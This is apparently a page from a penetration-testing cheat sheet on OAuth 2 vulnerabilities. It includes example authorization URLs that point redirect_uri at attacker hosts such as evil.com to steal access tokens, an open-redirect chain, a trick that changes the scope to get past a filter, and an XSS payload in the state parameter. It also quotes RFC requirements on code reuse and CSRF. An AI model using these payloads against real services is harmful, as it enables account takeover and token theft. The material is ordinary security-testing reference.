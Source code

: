 # OAuth 2 - Common vulnerabilities

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.

## References

* [All your Paypal OAuth tokens belong to me - localhost for the win - INTO THE SYMMETRY](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html)
* [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - INTO THE SYMMETRY](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
* [How I hacked Github again. - Egor Homakov](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
* [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
